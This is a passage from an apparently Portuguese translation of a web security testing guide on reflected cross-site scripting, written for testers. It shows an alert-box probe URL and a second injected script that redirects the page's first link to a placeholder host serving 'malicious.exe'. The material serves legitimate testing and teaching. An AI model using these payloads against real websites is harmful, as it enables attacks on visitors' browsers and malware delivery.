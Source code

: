 ![Exemplo de XSS 1](images/XSS_Example1.png)\
*Figura 4.7.1-1: Exemplo de XSS 1*

O testador deve suspeitar que cada ponto de entrada de dados pode resultar em um ataque XSS. Para analisá-lo, o testador irá brincar com a variável do usuário e tentar acionar a vulnerabilidade.

Vamos tentar clicar no seguinte link e ver o que acontece:

```text
http://exemplo.com/index.php?user=<script>alert(123)</script>
```

Se nenhuma sanitização for aplicada, isso resultará na seguinte mensagem pop-up

:

![Alerta](images/Alert.png)\
*Figura 4.7.1-2: Exemplo de XSS 1*

Isso indica que há uma vulnerabilidade de XSS e parece que o testador pode executar código de sua escolha no navegador de qualquer pessoa se ela clicar no link do testador.

#### Exemplo 2

Vamos tentar outro trecho de código (link):

```text
http://exemplo.com/index.php?user=<script>window.onload = function() {var AllLinks=document.getElementsByTagName("a");AllLinks[0].href = "http://badexample.com/malicious.exe";}</script>
```
